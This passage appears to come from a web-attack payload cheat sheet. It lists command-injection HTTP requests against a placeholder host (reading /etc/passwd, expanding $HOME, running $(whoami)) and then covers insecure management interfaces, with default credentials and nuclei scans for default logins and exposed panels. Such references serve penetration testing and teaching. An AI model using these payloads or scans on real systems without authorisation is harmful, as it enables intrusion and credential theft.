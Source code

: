 ```http
GET /vuln.php?cmd=cat /etc/passwd | grep root HTTP/1.1
Host: vulnerable.com
```

---

### **13. Injection via Environment Variables**
- Reference system variables like `$PATH`, `$HOME`.

```http
GET /vuln.php?cmd=echo $HOME HTTP/1.1
Host: vulnerable.com
```

---

### **14. Injection via Command Substitution**
- Use `$(...)` to execute nested commands.

```http
GET /vuln.php?cmd=$(whoami) HTTP/1.1
Host: vulnerable.com
```
## Insecure Management Interface
Insecure Management Interfaces may lack proper security measures, such as strong authentication, encryption, or IP restrictions, allowing unauthorized users to potentially gain control over critical systems. Common issues include using default credentials, unencrypted communications, or exposing the interface to the public internet.

* Lack of Authentication or Weak Authentication:
    * Interfaces accessible without requiring credentials.
    * Use of default or weak credentials (e.g., admin/admin).
    ```ps1
    nuclei -t http/default-logins -u https://example.com
    ```
* Exposure to the Public Internet
    ```ps1
    nuclei -t http/exposed-panels -u https://example.com
    nuclei -t http/exposures -u https://example.com
    ```
* Sensitive data transmitted over plain HTTP or other unencrypted protocols

**Examples**:

* **Network Devices**: Routers, switches, or firewalls with default credentials or unpatched vulnerabilities.
* **Web Applications**: Admin panels without authentication or exposed via predictable URLs (e.g., /admin).
* **Cloud Services**: API endpoints without proper authentication or overly permissive roles.

# Insecure Source Code Management
